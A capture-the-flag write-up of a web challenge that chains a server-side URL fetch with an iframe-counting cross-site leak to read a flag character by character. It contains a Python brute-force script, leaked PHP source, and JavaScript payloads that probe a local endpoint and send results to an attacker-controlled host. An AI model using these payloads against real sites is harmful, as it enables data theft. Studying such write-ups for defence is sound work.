


# Hacker Affiliates - Web 500

>They should already know intended solutions mean nothing to us - sine_nomine


## Challenge Description
So the attackers at this point seem to have some sort of website where they want their affiliates to register, they say they'll check out their websites if they do... I wonder if the admin can see what sites have already been registered using that search function they have; see if you can figure it out. 

`http://172.18.10.105:32581`
## Initial Observations
The website has two input text boxes, each with an associated button. The upper box asks for a URL and doesn't seem to do anything obvious. 



The second field asks for a search term, and sends you to a blank page. Let's try a few things and see if the result changes. For example let's try the flag prefix RTXFLAG. 



Interesting! It looks like the web page will change if we submit part of the flag. We can write up a quick script to try and leak the flag one byte at a time. 

```python
from pwn import *
from string import printable
from urllib.parse import quote

flag = "RTXFLAG{"

while True:
  for c in printable:
    test = "http://172.18.10.105:32581/search.php?search="+quote(flag+c)
    res = wget(test)
    if len(res) > 0:
      flag += c
      break
  if flag[-1] == '}':
    break
print(flag)
```
This will give us `RTXFLAG{YOU_NEED_ADMIN}`... A fake flag! It also gives us a huge webpage (3.34MB). The webpage is mostly `<br/>` but there is some php source in a comment. 
```php
<?php

$flag = "REDACTED";

$host = explode(":",$_SERVER['HTTP_HOST'])[0];

// prevent DNS-rebinding - internal port: 1337 but we only check ip not port
// 172.18.10.105 isn't routable from internal network/server so use 10.144.0.68 or 127.0.0.1 when requesting resources
if($host != "172.19.0.2" && $host != "127.0.0.1" && $host != "10.244.0.68" && $host != "10.244.0.1" && $host != "172.18.10.105")
{
    die("Use a valid host header! - host: ".htmlentities($host));
}

if($_SERVER['REMOTE_ADDR'] != "127.0.0.1")
{
    $flag = "RTXFLAG{YOU_NEED_ADMIN}";
}

if(strstr($flag,$_GET['search']))
{
    echo "<iframe srcdoc=\"<html><title>".htmlentities($_GET['search'])."</title><body>flag: ".htmlentities($_GET['search'])."<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br></body></html>\"></iframe>";
}

if($_GET['search'] === "RTXFLAG{YOU_NEED_ADMIN}")
{
    echo str_repeat("<br>\n",200);
        echo "REDACTED ".str_replace(array("REDACTED","REDACTED","REDACTED"),"REDACTED",file_get_contents("search.php"))."  the internal server IP and port is 127.0.0.1 1337REDACTED";
    echo str_repeat("<br>\n",600000);
    echo "View the source, this isn't the real flag";
    echo str_repeat("<br>\n",100000);
}


?>
``` 

Looks like the source for search.php, but with the flag redacted, this will be helpful in figuring out what's going on. It looks like if the request doesn't come from `127.0.0.1` then it replaces the flag with the fake flag. Then it uses strstr to test if the search input is a substring of the flag, and if it is, an iframe is returned. If the search string equals teh fake flag, then it returns the redacted source. 

So our goal is to try and get the server to connect to itself to test the flag, then exfiltrate the information to us. 


## Gain Control
The first thing we need to do is to try and gain some control of the webapp so that we can make it talk to itself. We can probably assume that the server will reach out to whatever website you give it in the upper text field. Let's try making the server connect to an IP we control and we will see a response. 


Now we know that the webservice will make a request to whatever we put in the `Your URL` box. From here we can try to get the web service running some of our Javascript.

```javascript
<head>
<script>
function phoneHome(flag)
{
  let getter = new XMLHttpRequest();
  getter.open("GET", "http://172.18.10.146:8080/index.html?flag="+flag, false);
  getter.send(null);
}

function main(){
    phoneHome("TEST");
}
</script>
</head>
<body onLoad='main()'>

</body>

```
When the service loads this Javascript it should make another GET request to our web server with the flag parameter set to "TEST". 

## Exploit

Now we need to get the webservice to call itself. Let's try the obvious solution where we just include another XMLHttpRequest() to `127.0.0.1:1337/search.php?search=R` If this works we should get some data returned in the XHR. 

```javascript
<head>
<script>

function phoneHome(flag)
{
  let getter = new XMLHttpRequest();
  getter.open("GET", "http://172.18.10.146:8080/index.html?flag="+flag, false);
  getter.send(null);
}

function testFlag(flag)
{
  let getter = new XMLHttpRequest();
  getter.open("GET", "http://127.0.0.1/search.php?search="+flag, false);
  getter.send(null);
  if (getter.responseText.size() != 0)
    phoneHome("Good");
  else
    phoneHome("Bad");
}

function main(){
    document.body.appendChild(attr);
    nextChar(0);
}
</script>
</head>
<body onLoad='main()'>

</body>

```

Now we run this code and... It doesn't make a callback. So what happened here? There's a feature in modern web called Cross-Origin Resource Sharing that limits what requests a server can make. CORS kicks in when a server gets a request on a different domain or port and effectively shuts down the connection. 

There is a way to get around that and that is to use iframes. We can create an iframe Javascript element with `document.createElement('iframe')` and dynamically populate the src field based on the flag parts we've discovered. 

```javascript
<head>
<script>
var attr = document.createElement('iframe');
var chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZ$_!@#abcdefghijklmnopqrstuvwxyz0123456789}";
var flag = location.search.split("flag=")[1];

function phoneHome(flag)
{
  let getter = new XMLHttpRequest();
  getter.open("GET", "http://172.18.10.146:8080/index.html?flag="+flag, false);
  getter.withCredentials=true;
  getter.send(null);
}
function nextChar(newIdx) {
    if (newIdx >= chars.length)
    {
        return;
    }
    char = chars.charAt(newIdx);
    attr.src = "http://127.0.0.1:1337/search.php?search=" + flag + char;
    attr.onload = function() {
        if (attr.contentWindow.frames.length > 0) {
            phoneHome(flag + char);
            return;
        }
        nextChar(newIdx + 1);
    }
}

function main(){
    document.body.appendChild(attr);
    nextChar(0);
}
</script>
</head>
<body onLoad='main()'>

</body>

```
 This payload will leak the next character of the flag we pass in on the flag parameter. By making the service go to `http://172.18.10.146:8080/index.html?flag=RTXFLAG{` we will see the next part is `http://172.18.10.146:8080/index.html?flag=RTXFLAG{X`  

We can repeat this process until we leak the entire flag of `RTXFLAG{XS_L34KS_VIA_FR4M3}`
